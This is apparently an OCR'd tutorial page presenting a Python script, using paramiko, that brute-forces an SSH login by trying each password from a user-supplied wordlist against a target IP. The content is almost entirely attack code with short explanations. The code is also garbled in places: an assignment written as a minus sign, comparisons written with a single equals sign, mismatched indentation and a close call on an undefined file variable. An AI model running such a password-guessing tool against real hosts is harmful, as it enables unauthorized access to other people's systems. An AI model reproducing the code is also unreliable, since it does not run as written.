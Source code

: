 ```python
import paramiko
import sys
import os
```

**Inputs**: This block will request input from the user. An alternative way to do this would be to accept the user input directly from the command line as an argument using `sys.argv[]`.

```python
target = str(input('please enter the target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter the location of the password file: '))
```

**SSH Connection**: This section will create the `ssh_connect` function. Successful authentication will return a code 0, a failed authentication will return a code 1.

```python
def ssh_connect(password, code=0):
        ssh - paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

        try:
                ssh.connect(target, port=22, username=username, password=password)
        except paramiko.AuthenticationException:
                code = 1
        ssh.close()
        return code
```

**Password List**: We then open the password file supplied earlier by the user and take each line as a password to be tried.

```python
with open(password_file, 'r') as file:
        for line in file.readlines():
                password = line.strip()
```

**Responses**: The script tries to connect to the SSH server and decides on an output based on the response code. Please note *the response code here is the one generated by Paramiko* and not an HTTP response code. The script exits once it has found a valid password.

```python
            try:
                    response = ssh_connect(password)
                    if response = 0:
                            print('password found: '+ password)
                            exit(0)
                    elif response = 1:
                            print('no luck')
            except Exception as e:
                    print(e)
                    pass
input_file.close()
```
